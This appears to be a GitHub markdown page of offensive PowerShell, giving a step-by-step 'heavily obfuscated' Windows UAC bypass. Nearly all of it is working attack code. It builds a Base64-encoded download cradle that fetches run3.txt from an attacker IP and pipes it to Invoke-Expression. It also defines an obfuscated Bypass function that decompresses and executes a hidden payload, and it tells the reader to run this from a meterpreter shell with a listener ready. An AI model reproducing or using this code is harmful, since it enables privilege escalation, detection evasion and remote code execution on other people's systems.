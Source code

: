 # Heavily Obfuscated UAC Bypass
Thanks to [saulgoodman](https://github.com/saulg00dmin) for pointing out this technique.

Source: https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/blob/main/Functions/UAC-Bypass.md

1. Prepare command to be executed:

```powershell
$ipAddress = (ip addr show tun0 | grep inet | head -n 1 | cut -d ' ' -f 6 | cut -d '/' -f 1)
$text = "(New-Object System.Net.WebClient).DownloadString('http://$ipAddress/run3.txt') | IEX"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
exit
```

2. Insert the Base64 blob into the code variable like the below:

```powershell
$code = "KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADIAMAA3AC8AcgB1AG4AMwAuAHQAeAB0ACcAKQAgAHwAIABJAEUAWAA=" 
```

3. Create the `Bypass` function:

```powershell
function Bypass {
[CmdletBinding()]
param (
[Parameter (Position=0, Mandatory = $True)]
[string]$code )

(nEw-OBJECt  Io.CoMpreSsion.DEflateSTrEaM( [SyStem.io.memoRYSTReaM][convErT]::fromBaSE64STriNg( 'hY49C8IwGIT/ykvoGjs4FheLqIgfUHTKEpprK+SLJFL99zYFwUmXm+6ee4rzcbti3o0IcYDWCzxBfKSB+Mldctg98c0TLa1fXsZIHLalonUKxKqAnqRSxHaH+ioa16VRBohaT01EsXCmF03mirOHFa0zRlrFqFRUTM9Udv8QJvKIlO62j6J+hBvCvGYZzfK+c2o68AhZvWqSDIk3GvDEIy1nvIJGwk9J9lH53f22mSdv') ,[SysTEM.io.COMpResSion.coMPRESSIONMoDE]::DeCompress ) | ForeacH{nEw-OBJECt Io.StReaMrEaDer( $_,[SySTEM.teXT.enCOdING]::aSciI )}).rEaDTOEnd( ) | InVoKE-expREssION
}
```

4. Then run the Bypass in the meterpreter shell make sure you have a listener running.

```powershell
Bypass KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADIAMAA3AC8AcgB1AG4AMwAuAHQAeAB0ACcAKQAgAHwAIABJAEUAWAA=
```
